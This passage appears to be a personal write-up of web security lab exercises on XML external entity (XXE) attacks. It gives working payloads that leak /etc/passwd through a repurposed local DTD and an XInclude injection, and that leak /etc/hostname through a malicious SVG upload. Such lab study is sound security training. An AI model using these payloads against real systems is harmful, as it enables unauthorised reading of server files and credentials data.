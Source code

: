 ### LAB: Exploiting XXE to retrieve data by repurposing a local DTD
The above technique works fine with external DTD, but it won't normally work with an internal DTD.
So what about blind XXE vulnerabilities when out-of-band interactions are blocked? Try invoke a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.
First locate a local DTD. Use this as the body of `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % localDTD SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

Base on the error messages (no error if the file exists), we found a local DTD: `/usr/share/yelp/dtd/docbookx.dt`.
Next google for this DTD file and found an entity that we can redefine `ISOamsa`. Now use this XML to redefine `ISOamsa` and make it trigger an error message containing the `/etc/passwd` content:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % localDTD SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
        <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
        '> %localDTD;
    ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting XInclude to retrieve files
To perform an `XInclude` attack, we need to reference the `XInclude` namespace and provide the path to the file that you wish to include. Use this as the value of `productId` in the `POST /product/stock HTTP/2` request:

    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>

### LAB: Exploiting XXE via image file upload
Submit a `svg` file with the `/etc/hostname` content:

    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg [
        <!ENTITY xxe SYSTEM "file:///etc/hostname">
    ]>
    <svg xmlns="http://www.w3.org/2000/svg" width="1000" height="1000">
        <text x="10" y="50" font-size="70">&xxe;</text>
    </svg>
